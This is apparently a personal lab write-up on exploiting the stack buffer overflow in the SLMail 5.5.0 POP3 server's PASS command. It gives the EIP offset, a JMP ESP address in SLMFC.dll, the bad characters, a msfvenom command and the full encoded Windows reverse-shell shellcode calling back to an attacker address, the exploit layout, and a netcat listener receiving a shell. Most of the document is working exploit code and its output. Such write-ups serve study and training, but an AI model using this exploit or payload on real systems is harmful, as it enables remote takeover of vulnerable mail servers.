




# SLMail 5.5.0 Stack Buffer Overflow
References: 
- https://www.rapid7.com/db/modules/exploit/windows/pop3/seattlelab_pass/
  
*There exists an unauthenticated buffer overflow vulnerability in the POP3 server of Seattle Lab Mail 5.5 when sending a password with excessive length. Successful exploitation should not crash either the service or the server; however, after initial use the port cannot be reused for successive exploitation until the service has been restarted.*

## Exploitation

### 1. Control EIP
To start with, make sure I can interact with the server fine programatically. Make a basic pwntools template which can login and send the password which will contain the exploit.
```python
#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================

io = start()

exploit = 'test'

info(io.recv(4096))
io.sendline('USER jack')
info(io.recv(4096))
io.sendline(f'PASS {exploit}')
info(io.recv(4096))
```
Now I can generate a cyclic pattern and send it to the program to cause a crash. I send a patten with a length of 2000. This causes the access violation at location `0x61636162`

  

```bash
┌──(kali㉿kali)-[~/Documents/bof]
└─$ pwn cyclic -l 0x61636162
2604
```
The offset is shown to be 2604. With this, we have control of EIP.  
* Note: I need to revise this to 2606 after noticing the access violation was off from this point onward. This shows it is important to retest your offset in the program to verify you've landed it right.

  

### 2. Find JMP instruction
The JMP ESP instruction will cause execution to jump forward to the payload which follows. It is ideal to find this instruction, rather than try and hardcode an address in, which will be difficult to get right with ASLR.  
Run `!mona modules` to check protections. The two files for SLMail are SLMail.exe and SLMFC.dll.
```
0BADF00D   !mona modules

           ---------- Mona command started on 2021-03-20 14:38:00 (v2.0, rev 563) ----------
0BADF00D   [+] Processing arguments and criteria
0BADF00D       - Pointer access level : X
0BADF00D   [+] Generating module info table, hang on...
0BADF00D       - Processing modules
0BADF00D       - Done. Let's rock 'n roll.
0BADF00D   ----------------------------------------------------------------------------------------------------------------------------------
0BADF00D    Module info :
0BADF00D   ----------------------------------------------------------------------------------------------------------------------------------
0BADF00D    Base       | Top        | Size       | Rebase | SafeSEH | ASLR  | NXCompat | OS Dll | Version, Modulename & Path
0BADF00D   ----------------------------------------------------------------------------------------------------------------------------------
0BADF00D    0x76080000 | 0x760e5000 | 0x00065000 | False  | True    | False |  False   | True   | 6.02.3104.0 [MSVCP60.dll] (C:\WINDOWS\system32\MSVCP60.dll)
0BADF00D    0x00340000 | 0x0036a000 | 0x0002a000 | True   | False   | False |  False   | False  | 1.0 [ARM.dll] (C:\Program Files\SLmail\ARM.dll)
0BADF00D    0x00e90000 | 0x01155000 | 0x002c5000 | True   | True    | False |  False   | True   | 5.1.2600.5512 [xpsp2res.dll] (C:\WINDOWS\system32\xpsp2res.dll)
0BADF00D    0x7c800000 | 0x7c8f6000 | 0x000f6000 | False  | True    | False |  False   | True   | 5.1.2600.5512 [kernel32.dll] (C:\WINDOWS\system32\kernel32.dll)
0BADF00D    0x77c10000 | 0x77c68000 | 0x00058000 | False  | True    | False |  False   | True   | 7.0.2600.5512 [msvcrt.dll] (C:\WINDOWS\system32\msvcrt.dll)
0BADF00D    0x7c900000 | 0x7c9af000 | 0x000af000 | False  | True    | False |  False   | True   | 5.1.2600.5512 [ntdll.dll] (C:\WINDOWS\system32\ntdll.dll)
0BADF00D    0x10000000 | 0x10007000 | 0x00007000 | False  | False   | False |  False   | True   | 4.3.0.2 [Openc32.dll] (C:\WINDOWS\system32\Openc32.dll)
0BADF00D    0x751d0000 | 0x751ee000 | 0x0001e000 | False  | True    | False |  False   | True   | 5.1.2600.5512 [wshbth.dll] (C:\WINDOWS\system32\wshbth.dll)
0BADF00D    0x71a90000 | 0x71a98000 | 0x00008000 | False  | True    | False |  False   | True   | 5.1.2600.5512 [wshtcpip.dll] (C:\WINDOWS\System32\wshtcpip.dll)
0BADF00D    0x00400000 | 0x0045c000 | 0x0005c000 | False  | False   | False |  False   | False  | 5.1 [SLmail.exe] (C:\Program Files\SLmail\SLmail.exe)
0BADF00D    0x76fc0000 | 0x76fc6000 | 0x00006000 | False  | True    | False |  False   | True   | 5.1.2600.5512 [rasadhlp.dll] (C:\WINDOWS\system32\rasadhlp.dll)
0BADF00D    0x77fe0000 | 0x77ff1000 | 0x00011000 | False  | True    | False |  False   | True   | 5.1.2600.5512 [Secur32.dll] (C:\WINDOWS\system32\Secur32.dll)
0BADF00D    0x71aa0000 | 0x71aa8000 | 0x00008000 | False  | True    | False |  False   | True   | 5.1.2600.5512 [WS2HELP.dll] (C:\WINDOWS\system32\WS2HELP.dll)
0BADF00D    0x774e0000 | 0x7761d000 | 0x0013d000 | False  | True    | False |  False   | True   | 5.1.2600.5512 [ole32.dll] (C:\WINDOWS\system32\ole32.dll)
0BADF00D    0x77f60000 | 0x77fd6000 | 0x00076000 | False  | True    | False |  False   | True   | 6.00.2900.5512 [SHLWAPI.dll] (C:\WINDOWS\system32\SHLWAPI.dll)
0BADF00D    0x662b0000 | 0x66308000 | 0x00058000 | False  | True    | False |  False   | True   | 5.1.2600.5512 [hnetcfg.dll] (C:\WINDOWS\system32\hnetcfg.dll)
0BADF00D    0x7e410000 | 0x7e4a1000 | 0x00091000 | False  | True    | False |  False   | True   | 5.1.2600.5512 [USER32.dll] (C:\WINDOWS\system32\USER32.dll)
0BADF00D    0x00370000 | 0x0038f000 | 0x0001f000 | True   | False   | False |  False   | True   | 1.1 [Antares.dll] (C:\WINDOWS\system32\Antares.dll)
0BADF00D    0x763b0000 | 0x763f9000 | 0x00049000 | False  | True    | False |  False   | True   | 6.00.2900.5512 [comdlg32.dll] (C:\WINDOWS\system32\comdlg32.dll)
0BADF00D    0x76c90000 | 0x76cb8000 | 0x00028000 | False  | True    | False |  False   | True   | 5.1.2600.5512 [IMAGEHLP.dll] (C:\WINDOWS\system32\IMAGEHLP.dll)
0BADF00D    0x77120000 | 0x771ab000 | 0x0008b000 | False  | True    | False |  False   | True   | 5.1.2600.5512 [OLEAUT32.dll] (C:\WINDOWS\system32\OLEAUT32.dll)
0BADF00D    0x7c9c0000 | 0x7d1d7000 | 0x00817000 | False  | True    | False |  False   | True   | 6.00.2900.5512 [SHELL32.dll] (C:\WINDOWS\system32\SHELL32.dll)
0BADF00D    0x77e70000 | 0x77f02000 | 0x00092000 | False  | True    | False |  False   | True   | 5.1.2600.5512 [RPCRT4.dll] (C:\WINDOWS\system32\RPCRT4.dll)
0BADF00D    0x76f20000 | 0x76f47000 | 0x00027000 | False  | True    | False |  False   | True   | 5.1.2600.5512 [DNSAPI.dll] (C:\WINDOWS\system32\DNSAPI.dll)
0BADF00D    0x76fd0000 | 0x7704f000 | 0x0007f000 | False  | True    | False |  False   | True   | 2001.12.4414.700 [CLBCATQ.DLL] (C:\WINDOWS\system32\CLBCATQ.DLL)
0BADF00D    0x773d0000 | 0x774d3000 | 0x00103000 | False  | True    | False |  False   | True   | 6.0 [comctl32.dll] (C:\WINDOWS\WinSxS\x86_Microsoft.Windows.Common-Controls_6595b64144ccf1df_6.0.2600.5512_x-ww_35d4ce83\comctl32.dll)
0BADF00D    0x76fb0000 | 0x76fb8000 | 0x00008000 | False  | True    | False |  False   | True   | 5.1.2600.5512 [winrnr.dll] (C:\WINDOWS\System32\winrnr.dll)
0BADF00D    0x77050000 | 0x77115000 | 0x000c5000 | False  | True    | False |  False   | True   | 2001.12.4414.700 [COMRes.dll] (C:\WINDOWS\system32\COMRes.dll)
0BADF00D    0x76f60000 | 0x76f8c000 | 0x0002c000 | False  | True    | False |  False   | True   | 5.1.2600.5512 [WLDAP32.dll] (C:\WINDOWS\system32\WLDAP32.dll)
0BADF00D    0x5f400000 | 0x5f4f4000 | 0x000f4000 | False  | False   | False |  False   | True   | 6.00.8063.0 [SLMFC.DLL] (C:\WINDOWS\system32\SLMFC.DLL)
0BADF00D    0x5d090000 | 0x5d12a000 | 0x0009a000 | False  | True    | False |  False   | True   | 5.82 [COMCTL32.dll] (C:\WINDOWS\system32\COMCTL32.dll)
0BADF00D    0x00330000 | 0x00339000 | 0x00009000 | True   | False   | False |  False   | True   | 1.1 [ExcptHnd.dll] (C:\WINDOWS\system32\ExcptHnd.dll)
0BADF00D    0x77f10000 | 0x77f59000 | 0x00049000 | False  | True    | False |  False   | True   | 5.1.2600.5512 [GDI32.dll] (C:\WINDOWS\system32\GDI32.dll)
0BADF00D    0x77c00000 | 0x77c08000 | 0x00008000 | False  | True    | False |  False   | True   | 5.1.2600.5512 [VERSION.dll] (C:\WINDOWS\system32\VERSION.dll)
0BADF00D    0x77dd0000 | 0x77e6b000 | 0x0009b000 | False  | True    | False |  False   | True   | 5.1.2600.5512 [ADVAPI32.dll] (C:\WINDOWS\system32\ADVAPI32.dll)
0BADF00D    0x77920000 | 0x77a13000 | 0x000f3000 | False  | True    | False |  False   | True   | 5.1.2600.5512 [SETUPAPI.dll] (C:\WINDOWS\system32\SETUPAPI.dll)
0BADF00D    0x71ab0000 | 0x71ac7000 | 0x00017000 | False  | True    | False |  False   | True   | 5.1.2600.5512 [WS2_32.dll] (C:\WINDOWS\system32\WS2_32.dll)
0BADF00D    0x71a50000 | 0x71a8f000 | 0x0003f000 | False  | True    | False |  False   | True   | 5.1.2600.5512 [mswsock.dll] (C:\WINDOWS\system32\mswsock.dll)
0BADF00D    0x769c0000 | 0x76a74000 | 0x000b4000 | False  | True    | False |  False   | True   | 5.1.2600.5512 [userenv.dll] (C:\WINDOWS\system32\userenv.dll)
0BADF00D   ----------------------------------------------------------------------------------------------------------------------------------
0BADF00D
0BADF00D
0BADF00D   [+] This mona.py action took 0:00:00.969000

```
Here are the sources for all loaded DLL and exe files. We can pull instructions from these as long as they lack memory protections. Ideally, no ALSO, SafeSEH or Rebase.  
The JMP ESP instruction is FFE4. Search for these bytes in SLMFC.dll using Mona.
```
0BADF00D   [+] Command used:
0BADF00D   !mona find -s "\xFF\xE4" -m SLMFC.DLL

           ---------- Mona command started on 2021-03-20 15:26:02 (v2.0, rev 563) ----------
0BADF00D   [+] Processing arguments and criteria
0BADF00D       - Pointer access level : *
0BADF00D       - Only querying modules SLMFC.DLL
0BADF00D   [+] Generating module info table, hang on...
0BADF00D       - Processing modules
0BADF00D       - Done. Let's rock 'n roll.
0BADF00D       - Treating search pattern as bin
0BADF00D   [+] Searching from 0x5f400000 to 0x5f4f4000
0BADF00D   [+] Preparing output file 'find.txt'
0BADF00D       - Creating working folder c:\logs\SLmail
0BADF00D       - Folder created
0BADF00D       - (Re)setting logfile c:\logs\SLmail\find.txt
0BADF00D   [+] Writing results to c:\logs\SLmail\find.txt
0BADF00D       - Number of pointers of type '"\xFF\xE4"' : 19
0BADF00D   [+] Results :
5F4A358F     0x5f4a358f : "\xFF\xE4" |  {PAGE_READONLY} [SLMFC.DLL] ASLR: False, Rebase: False, SafeSEH: False, OS: True, v6.00.8063.0 (C:\WINDOWS\system32\SLMFC.DLL)
5F4B41E3     0x5f4b41e3 : "\xFF\xE4" |  {PAGE_READONLY} [SLMFC.DLL] ASLR: False, Rebase: False, SafeSEH: False, OS: True, v6.00.8063.0 (C:\WINDOWS\system32\SLMFC.DLL)
5F4B5663     0x5f4b5663 : "\xFF\xE4" | asciiprint,ascii {PAGE_READONLY} [SLMFC.DLL] ASLR: False, Rebase: False, SafeSEH: False, OS: True, v6.00.8063.0 (C:\WINDOWS\system32\SLMFC.DLL)
5F4B6243     0x5f4b6243 : "\xFF\xE4" | asciiprint,ascii {PAGE_READONLY} [SLMFC.DLL] ASLR: False, Rebase: False, SafeSEH: False, OS: True, v6.00.8063.0 (C:\WINDOWS\system32\SLMFC.DLL)
5F4B63A3     0x5f4b63a3 : "\xFF\xE4" |  {PAGE_READONLY} [SLMFC.DLL] ASLR: False, Rebase: False, SafeSEH: False, OS: True, v6.00.8063.0 (C:\WINDOWS\system32\SLMFC.DLL)
5F4B7963     0x5f4b7963 : "\xFF\xE4" | asciiprint,ascii {PAGE_READONLY} [SLMFC.DLL] ASLR: False, Rebase: False, SafeSEH: False, OS: True, v6.00.8063.0 (C:\WINDOWS\system32\SLMFC.DLL)
5F4B7B23     0x5f4b7b23 : "\xFF\xE4" | asciiprint,ascii {PAGE_READONLY} [SLMFC.DLL] ASLR: False, Rebase: False, SafeSEH: False, OS: True, v6.00.8063.0 (C:\WINDOWS\system32\SLMFC.DLL)
5F4B9703     0x5f4b9703 : "\xFF\xE4" |  {PAGE_READONLY} [SLMFC.DLL] ASLR: False, Rebase: False, SafeSEH: False, OS: True, v6.00.8063.0 (C:\WINDOWS\system32\SLMFC.DLL)
5F4BAC53     0x5f4bac53 : "\xFF\xE4" |  {PAGE_READONLY} [SLMFC.DLL] ASLR: False, Rebase: False, SafeSEH: False, OS: True, v6.00.8063.0 (C:\WINDOWS\system32\SLMFC.DLL)
5F4BBE53     0x5f4bbe53 : "\xFF\xE4" |  {PAGE_READONLY} [SLMFC.DLL] ASLR: False, Rebase: False, SafeSEH: False, OS: True, v6.00.8063.0 (C:\WINDOWS\system32\SLMFC.DLL)
5F4BCC6B     0x5f4bcc6b : "\xFF\xE4" |  {PAGE_READONLY} [SLMFC.DLL] ASLR: False, Rebase: False, SafeSEH: False, OS: True, v6.00.8063.0 (C:\WINDOWS\system32\SLMFC.DLL)
5F4BEAC3     0x5f4beac3 : "\xFF\xE4" |  {PAGE_READONLY} [SLMFC.DLL] ASLR: False, Rebase: False, SafeSEH: False, OS: True, v6.00.8063.0 (C:\WINDOWS\system32\SLMFC.DLL)
5F4BF0BB     0x5f4bf0bb : "\xFF\xE4" |  {PAGE_READONLY} [SLMFC.DLL] ASLR: False, Rebase: False, SafeSEH: False, OS: True, v6.00.8063.0 (C:\WINDOWS\system32\SLMFC.DLL)
5F4C067B     0x5f4c067b : "\xFF\xE4" | ascii {PAGE_READONLY} [SLMFC.DLL] ASLR: False, Rebase: False, SafeSEH: False, OS: True, v6.00.8063.0 (C:\WINDOWS\system32\SLMFC.DLL)
5F4C078B     0x5f4c078b : "\xFF\xE4" |  {PAGE_READONLY} [SLMFC.DLL] ASLR: False, Rebase: False, SafeSEH: False, OS: True, v6.00.8063.0 (C:\WINDOWS\system32\SLMFC.DLL)
5F4C0EA3     0x5f4c0ea3 : "\xFF\xE4" |  {PAGE_READONLY} [SLMFC.DLL] ASLR: False, Rebase: False, SafeSEH: False, OS: True, v6.00.8063.0 (C:\WINDOWS\system32\SLMFC.DLL)
5F4C14FB     0x5f4c14fb : "\xFF\xE4" |  {PAGE_READONLY} [SLMFC.DLL] ASLR: False, Rebase: False, SafeSEH: False, OS: True, v6.00.8063.0 (C:\WINDOWS\system32\SLMFC.DLL)
5F4C2D63     0x5f4c2d63 : "\xFF\xE4" | asciiprint,ascii {PAGE_READONLY} [SLMFC.DLL] ASLR: False, Rebase: False, SafeSEH: False, OS: True, v6.00.8063.0 (C:\WINDOWS\system32\SLMFC.DLL)
5F4C4D13     0x5f4c4d13 : "\xFF\xE4" | ascii {PAGE_READONLY} [SLMFC.DLL] ASLR: False, Rebase: False, SafeSEH: False, OS: True, v6.00.8063.0 (C:\WINDOWS\system32\SLMFC.DLL)
0BADF00D       Found a total of 19 pointers
0BADF00D
0BADF00D   [+] This mona.py action took 0:00:01.297000
```
The top result is a good candidate: `0x5f4a358f`.

### 3. Find bad characters
Send an array of bad characters over as input after the overflowing string, and see how much of the extra input makes it in.
1. Send byte string
2. Follow ESP in dump, see where the string stops
3. Note the offending byte, remove it from the set and continue.

In this case, the bad bytes are: `00`, `0a` and `0d`. Note that `00` and `0a` completely terminate the string, whereas `0d` is simply ignored, so it's a harder one to catch - see the below screenshot.

  

### 4. Verify jump is taking place
Note that this can be done earlier if needed after JMP ESP is known. **This is an important sanity check**.  
To test, send a payload of [OFFSET][JMP ESP][NOPSLED][INT3 (CC)]:
```python
exploit = 'A' * 2606 + jmpesp + 'x90' * 32 + '\xCC' * len(shellcode)
```
Note that the small nopsled is added to counter for the encoder's GetPC routine which is a destructive operation.  
If everything works correctly, the program should hit the interrupt.

  

### 5. Generate shellcode
```bash
┌──(kali㉿kali)-[~/Documents/bof]
└─$ msfvenom --arch x86 --platform windows -p windows/shell_reverse_tcp LHOST=192.168.34.138 LPORT=9999 -b '\x00\x0a\x0d' -f python
Found 11 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 351 (iteration=0)
x86/shikata_ga_nai chosen with final size 351
Payload size: 351 bytes
Final size of python file: 1712 bytes
buf =  b""
buf += b"\xd9\xc0\xba\x14\xf9\xdc\xcf\xd9\x74\x24\xf4\x5b\x33"
buf += b"\xc9\xb1\x52\x83\xc3\x04\x31\x53\x13\x03\x47\xea\x3e"
buf += b"\x3a\x9b\xe4\x3d\xc5\x63\xf5\x21\x4f\x86\xc4\x61\x2b"
buf += b"\xc3\x77\x52\x3f\x81\x7b\x19\x6d\x31\x0f\x6f\xba\x36"
buf += b"\xb8\xda\x9c\x79\x39\x76\xdc\x18\xb9\x85\x31\xfa\x80"
buf += b"\x45\x44\xfb\xc5\xb8\xa5\xa9\x9e\xb7\x18\x5d\xaa\x82"
buf += b"\xa0\xd6\xe0\x03\xa1\x0b\xb0\x22\x80\x9a\xca\x7c\x02"
buf += b"\x1d\x1e\xf5\x0b\x05\x43\x30\xc5\xbe\xb7\xce\xd4\x16"
buf += b"\x86\x2f\x7a\x57\x26\xc2\x82\x90\x81\x3d\xf1\xe8\xf1"
buf += b"\xc0\x02\x2f\x8b\x1e\x86\xab\x2b\xd4\x30\x17\xcd\x39"
buf += b"\xa6\xdc\xc1\xf6\xac\xba\xc5\x09\x60\xb1\xf2\x82\x87"
buf += b"\x15\x73\xd0\xa3\xb1\xdf\x82\xca\xe0\x85\x65\xf2\xf2"
buf += b"\x65\xd9\x56\x79\x8b\x0e\xeb\x20\xc4\xe3\xc6\xda\x14"
buf += b"\x6c\x50\xa9\x26\x33\xca\x25\x0b\xbc\xd4\xb2\x6c\x97"
buf += b"\xa1\x2c\x93\x18\xd2\x65\x50\x4c\x82\x1d\x71\xed\x49"
buf += b"\xdd\x7e\x38\xdd\x8d\xd0\x93\x9e\x7d\x91\x43\x77\x97"
buf += b"\x1e\xbb\x67\x98\xf4\xd4\x02\x63\x9f\x1a\x7a\x49\xd5"
buf += b"\xf3\x79\x8d\xce\x0c\xf7\x6b\x7a\x03\x51\x24\x13\xba"
buf += b"\xf8\xbe\x82\x43\xd7\xbb\x85\xc8\xd4\x3c\x4b\x39\x90"
buf += b"\x2e\x3c\xc9\xef\x0c\xeb\xd6\xc5\x38\x77\x44\x82\xb8"
buf += b"\xfe\x75\x1d\xef\x57\x4b\x54\x65\x4a\xf2\xce\x9b\x97"
buf += b"\x62\x28\x1f\x4c\x57\xb7\x9e\x01\xe3\x93\xb0\xdf\xec"
buf += b"\x9f\xe4\x8f\xba\x49\x52\x76\x15\x38\x0c\x20\xca\x92"
buf += b"\xd8\xb5\x20\x25\x9e\xb9\x6c\xd3\x7e\x0b\xd9\xa2\x81"
buf += b"\xa4\x8d\x22\xfa\xd8\x2d\xcc\xd1\x58\x5d\x87\x7b\xc8"
buf += b"\xf6\x4e\xee\x48\x9b\x70\xc5\x8f\xa2\xf2\xef\x6f\x51"
buf += b"\xea\x9a\x6a\x1d\xac\x77\x07\x0e\x59\x77\xb4\x2f\x48"
```
Exploit is constructed as [OFFSET][JUMP ESP][NOPSLED][SHELLCODE] as seen below.
```python
exploit = 'A' * 2606 + jmpesp + '\x90' * 32 + shellcode
```

### 6. Exploit
Run the exploit.
```bash
┌──(kali㉿kali)-[~/Documents/bof]
└─$ ./exploit.py  
[+] Opening connection to 192.168.34.144 on port 110: Done
[*] +OK POP3 server h4ck3rz-1a3076c ready <00001.974015@h4ck3rz-1a3076c>
[*] +OK jack welcome here
```
Get the shell.
```shell
┌──(kali㉿kali)-[~/Desktop]
└─$ nc -lvnp 9999
listening on [any] 9999 ...
connect to [192.168.34.138] from (UNKNOWN) [192.168.34.144] 1059
Microsoft Windows XP [Version 5.1.2600]
(C) Copyright 1985-2001 Microsoft Corp.

C:\Program Files\SLmail\System>hostname
hostname
h4ck3rz-1a3076c

C:\Program Files\SLmail\System>ipconfig
ipconfig

Windows IP Configuration


Ethernet adapter Local Area Connection:

        Connection-specific DNS Suffix  . : localdomain
        IP Address. . . . . . . . . . . . : 192.168.34.144
        Subnet Mask . . . . . . . . . . . : 255.255.255.0
        Default Gateway . . . . . . . . . : 192.168.34.2
```
